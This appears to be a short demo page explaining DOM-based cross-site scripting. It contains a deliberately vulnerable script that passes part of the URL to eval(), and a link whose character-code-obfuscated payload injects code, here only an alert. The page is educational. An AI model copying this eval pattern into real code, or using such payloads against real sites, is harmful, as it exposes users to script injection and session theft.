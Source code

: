 +++
date = "2017-03-05T12:24:05+09:00"
title = "DOM Based XSS"

+++

## Demo

<p>Open <a href="//edwardkenfox.com/playground/dom-based-xss/index.html?id=1%27);eval(String.fromCharCode(97,108,101,114,116,40,39,98,111,111,33,39,41,59))//">this link</a> to show an alert via DOM Based XSS</p>


<script type="text/javascript">
  function getId(id) {
    console.log('id: ' + id);
  }

  var url = window.location.href;
  var pos = url.indexOf("id=")+3;
  var len = url.length;
  var id = url.substring(pos, len);

  eval('getId(' + id.toString() + ')');
</script>

## Code

~~~html
<p>Open <a href="//edwardkenfox.com/playground/dom-based-xss/index.html?id=1%27);eval(String.fromCharCode(97,108,101,114,116,40,39,98,111,111,33,39,41,59))//">this link</a> to show an alert via DOM Based XSS</p>


<script type="text/javascript">
  function getId(id) {
    console.log('id: ' + id);
  }

  var url = window.location.href;
  var pos = url.indexOf("id=")+3;
  var len = url.length;
  var id = url.substring(pos, len);

  eval('getId(' + id.toString() + ')');
</script>
~~~
